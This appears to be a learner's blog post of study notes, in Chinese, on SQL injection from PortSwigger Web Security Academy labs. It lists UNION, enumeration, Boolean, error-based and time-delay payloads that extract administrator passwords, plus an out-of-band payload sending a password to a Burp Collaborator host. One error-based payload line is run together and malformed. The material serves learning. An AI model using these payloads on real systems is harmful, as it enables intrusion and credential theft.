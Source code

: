 ```yaml
---
layout: article
title: SQL injection--Web Security Academy 1
mathjax: true
key: a00002	
---
```


## 前言

最近学习实践的过程深感自己基础的不足和英语水平的匮乏，正好又找到一个很好的学习网站（https://portswigger.net/web-security/learning-path 既有知识点也有相应的靶场，唯一的缺点就是全英文的），于是想借此重新打一遍web安全基础，并提高自己的英语水平，目前已经学习了XXE，SQL注入和Authentication部分，正在看OAuth的部分，今天先给出SQL injection 学习过程中的笔记，供分享与备忘。

Web Security Academy 分了如下5个点来介绍SQL注入，如下：

## 1.Retrieving hidden data

- where you can modify an SQL query to return  additional results.

  +是拼接字符串的；

  --是SQL的注释标记

## 2.Subverting application logic

- where you can change a query to interfere with the application's logic.

## 3.UNION attacks

- where you can retrieve data from different database tables.

### 两个条件：

1. The individual queries must return the **same number of columns**.
2. The **data types** in each column must **be compatible** between the individual queries.

​               `( 'UNION SELECT 'a',NULL,NULL,NULL--)`

### 	猜columns：

```sql
order by *num --
union select NULL,NULL --
```

There is a built-in table on Oracle called **DUAL** which can be used for this purpose. 
So the injected queries on Oracle would need to look like: 

```sql
UNION SELECT NULL FROM DUAL--
```

### Retrieving multiple values within a single column

```sql
concat(username,':',password)
username||'~'||password
```

## 4.Examining the database

- where you can extract information about the version and structure of the database.

#### Oracle

- On Oracle databases, every SELECT statement must specify a table to select FROM

  There is a built-in table on Oracle called dual which you can use for this purpose. For example: 

```sql
UNION SELECT 'abc' FROM dual
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Listing the contents of the database

#### EXCEPT Oracle

```sql
'+union+select+table_name,NULL+from+information_schema.tables--+
'+union+select+column_name,NULL+from+information_schema.columns+where+table_name='pg_user'--+
'+union+select+usename,passwd+from+pg_user--+
```

#### Oracle

```sql
'+union+select+NULL,NULL+from+dual--+
'+union+select+NULL,NULL+from+all_tables--+
'+union+select+table_name,NULL+from+all_tables--+
'+union+select+column_name,NULL+from+all_tab_columns+where+table_name='USERS_QCCECD'--+
'+union+select+USERNAME_WMJDSJ,PASSWORD_MPFXMQ+from+USERS_QCCECD--+
```

### 5.Blind SQL injection, 

- where the results of a query you control are not returned in the application's responses

#### Exploiting blind SQL injection by triggering conditional responses（Boolean）

```sql
TrackingId=xyz' AND '1'='1  	--验证
TrackingId=xyz' AND '1'='2  	--确定显示不同
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a  	--确定数据表
--confirming that there is a user called administrator.
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a  	
--确定字段长度
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  	
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a   	

```

#### Inducing conditional responses by triggering SQL errors（报错）

```sql
TrackingId=xyz'    	--verify the vulnerability 
TrackingId=xyz''    --error disappears
TrackingId=xyz'||(SELECT '')||'   --still error ,might be oracle
TrackingId=xyz'||(SELECT '' FROM dual)||'     --confirm oracle
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'	 --table confirmed
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' --error message is received
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'		
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'		--verify table
--username verified
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'	
-get the info
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

#### Exploiting blind SQL injection by triggering time delays

| **Oracle**     | dbms_pipe.receive_message(('a'),10) |
| -------------- | ----------------------------------- |
| **Microsoft**  | WAITFOR  DELAY '0:0:10'             |
| **PostgreSQL** | SELECT  pg_sleep(10)                |
| **MySQL**      | SELECT  sleep(10)                   |

example ：  `'||SELECT sleep(10)--`  

**分号**用 <font color="red">%3B</font>

```sql
'%3Bselect case when (1=1) then pg_sleep(10) else pg_sleep(0) end--

'%3Bselect case when (username='administrator') then pg_sleep(5) else pg_sleep(0) end from users--

'%3Bselect case when (username='administrators') then pg_sleep(5) else pg_sleep(0) end from users--

'%3Bselect case when (length(password)>20) then pg_sleep(5) else pg_sleep(0) end from users where username='administrator'--

'%3Bselect case when (substr(password,1,1)='a') then pg_sleep(2) else pg_sleep(0) end from users where username='administrator'--

```

#### Exploiting blind SQL injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

##### oracle（ combined with xxe）example：

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//dp61vdo4svrlp985ts0r562e95fw3l.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

retrive data

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.kym84kxb120syghc2z9yedblico4ct.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### SQL injection cheat sheet

链接包含常见不同数据库的各种探测绕过技巧

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)